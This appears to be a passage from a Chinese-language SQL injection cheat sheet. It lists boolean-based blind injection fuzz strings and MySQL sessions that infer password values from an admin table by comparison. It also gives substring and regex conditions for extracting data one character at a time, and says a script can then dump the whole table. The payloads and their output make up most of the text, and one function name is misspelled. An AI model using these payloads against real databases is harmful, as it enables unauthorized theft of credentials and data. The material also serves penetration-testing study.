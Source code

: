**`or (case when (bool) then 1 else 0 end)`**

**有时候`where`字句有括号又猜不到SQL语句的时候，可以有下列类似的fuzz**

**`1' or (bool) or '1'='1`**

**`1%' and (bool) or 1=1 and '1'='1`**

**有时候也可以通过与表中的数据进行对比**

```mysql
mysql> select * from admin where username="" || id=2 && password<"5";
+----+----------+----------+------+
| id | username | password | num  |
+----+----------+----------+------+
|  2 | admin    | 456      |   20 |
+----+----------+----------+------+
1 row in set (0.00 sec)
mysql> select * from admin where username="" || id=3 && password<"8";
+----+----------+----------+------+
| id | username | password | num  |
+----+----------+----------+------+
|  3 | test     | 789      |   30 |
+----+----------+----------+------+
1 row in set (0.00 sec)
mysql> select * from admin where username="" || id=3 && password<"7";
Empty set (0.00 sec)
```

**这样通过id指定的话改一下payload直接上脚本把数据全脱了。另外如果想跨表查询的话**

```mysql
mysql> select a.password<'z' from users a limit 1,1;
+----------------+
| a.password<'z' |
+----------------+
|              1 |
+----------------+
```

**构造逻辑判断**

> **使用逗号**

**`left(user(),1)>'r'`**

**`right(user(),1)>'r'`**

**`substr(user(),1,1)='r'`**

**`mid(user(),1,1)='r'`**

> **不使用逗号**

**`user() regexp '^[a-z]'`**

**`ueer() like 'root%'`**

**`POSITION('root' in user())`**
